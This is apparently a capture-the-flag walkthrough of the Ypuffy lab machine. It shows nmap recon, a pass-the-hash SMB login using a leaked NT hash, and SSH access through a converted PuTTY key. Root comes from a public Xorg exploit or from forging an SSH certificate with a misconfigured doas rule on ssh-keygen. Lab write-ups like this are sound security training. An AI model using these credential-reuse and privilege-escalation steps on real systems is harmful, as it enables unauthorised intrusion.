 ```yaml
---
title: Ypuffy
date: 2019-02-09
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="ypuffy-Banner.png" />
</p>

***

# External Recon
Let's start with nmap. But let's spice it up a bit with an additional script:

`nmap -sC -sV -oN initial --script discovery 10.10.10.107`

The output is quite big. You can the output <a href="https://www.tagnull.de/post/ypuffy/nmap.txt">here</a>.

The script tries to get as much information as possible of your target and in this case shows some LDAP information
and the following open ports:

| Open Ports |
|:----------:|
|22, 80, 139, 389, 445|

[[Top]](#top)

# Explore
The `sambaNTPassword` Hash immediately caught my attention.

{{< highlight bash >}}
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
{{< / highlight >}}

![Alice-Hash](alice-hash.png)

As this is very juicy information. I paused my enumeration and tried to exploit this.
But how?

Password hashes are often used as a substitude to passwords. Which means, you don't
need the original password to authenticate to a service. Just the hash. This is how
your corporate single-sign-on stuff works. Otherwise you would have to login every time.
So it's a convenience thing.

The method is called Pass-The-Hash. And of cause there are tools out there, that help
you with this. Like: `pth-smbclient`. If you don't have it, just got to github and get the `pth-toolkit`.

[[Top]](#top)

# Exploit
After fiddeling around with the options, syntax and where to connect to I managed to connect to alice
share:

`pth-smbclient --user=alice1978 --pw-nt-hash -m smb3 \\\\10.10.10.107\\alice 0B186E661BBDBDCF6047784DE8B9FD8B`

And we find a private key in "ppk" format.

![SMB-Connect-Alice](smb-connect-alice.png)

After downloading the file, and trying to use it as a key to access ssh I got an error.
This format is not compatible with ssh. So, I tried converting it. A quick googlesearch helped
me finding the correct command for this task. But first we need to install putty-tools.

{{< highlight bash >}}
puttygen my_private_key.ppk -O private-openssh -o id_rsa
mv ~/.ssh
chmod 600 id_rsa
ssh -i id_rsa alice1978@10.10.10.107
{{< / highlight >}}

[[Top]](#top)

# User Flag

As you can see in the screenshot. A simple `ls` gives us the "user.txt".

![Shell-Alice](shell-alice.png)

[[Top]](#top)

# Internal Recon
A quick `uname -a` reveals a BSD box. Which was quite handy. Shortly after this box
was released an exploit for the XORG component of most BSD boxes was published. It's local privesc which gives you root access.
This is something you only get by googleing or being up-to-date with infosec news.
This was the route I took to root the box.

However the intended method was a bit more tricky. While searching the directory structure I noticed
a folder "userca".<br>
"CA" in this context mostly means "Certificate Authority" and is there to sign certificates or issue new keys. Let's say: "ssh".

Furthermore BSD has something like `sudo`, called `doas`. Let's check what we can do on this box.

{{< highlight bash >}}
ypuffy$ cat /etc/doas.conf
permit
keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
{{< / highlight >}}

We indeed can run `ssh-keygen`. But when we try, we are prompted for a password. Let's dig deeper in the ssh route.
There's a password somewhere for sure.

{{< highlight bash >}}
ypuffy$ cat sshd_config
[...]
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u
{{< / highlight >}}

So, apparently we can issue a `curl` to the "CA"...I guess, not sure what happens here. I still need to look this up...

[[Top]](#top)


# Privilege Escalation
Let's step back and catch up with the XORG exploit first.
The exploit is fairly easy to use. Just get it from <a href="https://www.exploit-db.com/exploits/45742" target="_blank">Exploit-db</a>.
It's very easy to use.
* Download
* chmod +x
* run
* root
<br>
<br>

Let's get back to the `curl` command and check what we can do with it:

{{< highlight bash >}}
ypuffy$ /usr/local/bin/curl "http://127.0.0.1/sshauth?type=principals&username=root"
3m3rgencyB4ckd00r
{{< / highlight >}}

For whatever reason we get this string back: `3m3rgencyB4ckd00r` - obviously the missing password.
Let's create a key and try signing it.

{{< highlight bash >}}
ypuffy$ ssh-keygen -t rsa
ypuffy$ mv id_rsa.pub /tmp
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I "algo" -z 1 id_rsa.pub
  Signed user key id_rsa-cert.pub: id "algo" serial 1 for 3m3rgencyB4ckd00r valid forever
ypuffy$ cp id_rsa-cert.pub /home/alice1978/.ssh/
{{< / highlight >}}

This seems to work so far. But can we login now?

[[Top]](#top)

# Root Flag

{{< highlight bash >}}
ypuffy$ ssh root@localhost
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# ls
  root.txt
{{< / highlight >}}

This is it. We got the box. =)

See ya next time!

x41

[[Top]](#top)
